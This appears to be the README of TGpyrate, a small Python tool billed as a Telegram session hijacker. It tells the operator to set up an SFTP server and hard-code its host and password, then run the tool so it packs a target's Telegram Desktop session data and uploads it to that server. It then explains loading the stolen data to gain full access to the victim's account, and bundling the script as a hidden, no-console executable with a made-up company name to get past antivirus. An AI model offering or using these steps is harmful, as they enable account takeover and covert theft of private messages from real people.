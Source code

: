 # TGpyrate

Telegram session hijacker with SFTP. 

## Background

[Telegram](https://telegram.org/) is sometimes referred to as a privacy-focused instant messenger.

Although it's FOSS and advertized to have good privacy, it's defenseless against local malware or forensics.

TGpyrate is therefore written to prove that.

## Install

### Cloning

```
$ git clone https://github.com/noarchwastaken/TGpyrate.git
$ cd TGpyrate
```

### Dependencies

To run TGpyrate, you need:

- `python3` (tested on 3.9.1)
- `paramiko` (tested on 2.7.2)

TGpyrate can automatically detect running "portable" versions of Telegram Desktop on Windows. To enable this optional feature, you need:

- `psutil` (tested on 5.7.2)

To make it actually useful, (of course) you need Telegram Desktop.

You can also bundle it using `pyinstaller` or `nuitka`.

To install everything mentioned here (assuming you have Python 3 and pip installed):

```
$ pip install -U -r requirements.txt
```

## Usage

### Set up an SFTP server

TGpyrate relies on an SFTP server to send data it collected.

An OpenSSH server with `PasswordAuthentication yes` would serve that purpose.

It is also suggested to create a temporary user with a randomly generated password, and delete it once you are done.

### Allow TGpyrate to connect to that SFTP server

TGpyrate uses hard-coded parameters that you can modify before running.

To do this, open `tgpyrate.py` with a text editor, and edit according to your needs. Here's an example:

```
...

""" START USER PARAMETERS """

# your SFTP server info
# SFTP server location
SFTP_HOST = '127.0.0.1'

# SFTP server port
SFTP_PORT = 22

# SFTP server user
SFTP_USER = 'noarch'

# password of that remote user
SFTP_PASS = 'etarypGT'

...
```

After you have modified the SFTP server info, you can proceed to run TGpyrate:

```
$ python3 tgpyrate.py
```

The program will run for a while, and you should see a `tar` file containing the Telegram session data on the SFTP user's home directory.

The file structure of the archive is relative to the target root, so it would look like this:

```
home
└── noarch
    ├── .local
    │   └── share
    │       └── TelegramDesktop
    │           └── tdata
    │               ├── ...
    │               └── ...
    │                   ├── ...
...

```

### Using the extracted data

The most basic usage of the extracted data is to simply put it in Telegram Desktop.

Assuming you are using the Telegram Desktop appimage on GNU/Linux, your Telegram Desktop data should be in:

```
~/.local/share/TelegramDesktop
```

Extract the TelegramDesktop directory of the archive to replace the above TelegramDesktop directory.

Open Telegram Desktop, you should be logged into the target's account, and have full access over it.

### Change output file naming

The output file of TGpyrate contains the target's OS type, version and the execution time in ISO format.

If you like hacking around, modify `SFTP_DEST`.

```
SFTP_DEST = '{}-{}.tar.gz'.format(platform.platform(),
                               datetime.now(timezone.utc)
                               .astimezone()
                               .isoformat(timespec='seconds'))
```

### Use Gzip compression

If you want to save some bandwidth for the target, enable Gzip compression by setting `GZIP_COMP_LEVEL`. For example:

```
GZIP_COMP_LEVEL = 4
```

You may also like to include the `.gz` extension to SFTP_DEST, like the example above.

### Custom Telegram data directory

By default, TGpyrate searches through a series of default Telegram data storage.

You can add your own to `installation_locations`.

## Bundling

### By using `pyinstaller`

The simplist way to bundle TGpyrate is by using `pyinstaller`. You will need to have `pyinstaller` installed:

```
$ pip install pyinstaller
```

To bundle TGpyrate to a single, standalone executable that runs without opening a console, simply run

```
$ pyinstaller -F --noconsole tgpyrate.py
```

and the output executable will be in the `dist` directory.

Note that some Windows antivirus treat all executables generated by `pyinstaller` as viruses, so you probably would need `nuitka` if your target machine is running Windows.

### By using `nuitka`

Nuitka is a Python bundler / compiler.

It is available on pypi:

```
$ pip install nuitka
```

For `nuitka` to work, you will need a C compiler like GCC or MSVC. `nuitka` will prompt you to install one if you don't have it already.

After you get the compiler set up, run this to compile a single, standalone, no console executable for Windows:

```
$ python3 -m nuitka --standalone --onefile --windows-disable-console --windows-company-name=<your imaginary company here> --windows-file-version=11.45.14
```

In noarchwastaken's testing, `nuitka` would fail to run in `--onefile` mode on GNU/Linux, probably due to some problems when dealing with `AppImageKit`.

No further testing has been done... Please open an issue if you found the solution.

For more information, read the [Nuitka User Manual](https://nuitka.net/doc/user-manual.html).

## Contributing

Feel free to open any issues or PR on this <150 sloc little script ;)

## License & disclaimer

(c) 2021 noarchwastaken

This program is licensed under the GNU General Public License, Version 3. See the full license [here](https://github.com/noarchwastaken/TGpyrate/blob/master/LICENSE).

This program is not intended to be used for illegal activities.

noarchwastaken is **NOT** responsible for any consequences of using this program.
